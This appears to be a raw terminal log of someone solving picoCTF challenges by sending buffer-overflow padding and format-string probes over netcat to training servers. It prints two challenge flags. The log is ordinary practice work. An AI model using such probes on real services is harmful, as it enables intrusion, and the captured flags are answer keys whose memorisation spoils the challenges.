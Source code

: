 earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 53208
Input: wqeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

_______________________________________________________________________________________________________

earthwarrior@LAPTOP-VLDN28C5:~$ nc mimas.picoctf.net 59065
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 1e2qwe21.#\
There is no such burger yet!

earthwarrior@LAPTOP-VLDN28C5:~$ nc mimas.picoctf.net 59065
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}

_______________________________________________________

earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
Here's a story -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq&&&&&&&&&&&&&&


qew
eqweqeqeqeqeq
^Z
[1]+  Stopped                 nc saturn.picoctf.net 50585
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> \0
Here's a story -
\0

^Z
[2]+  Stopped                 nc saturn.picoctf.net 50585
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> %s
Here's a story -
%s
^C
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> flag.txt
Here's a story -
flag.txt
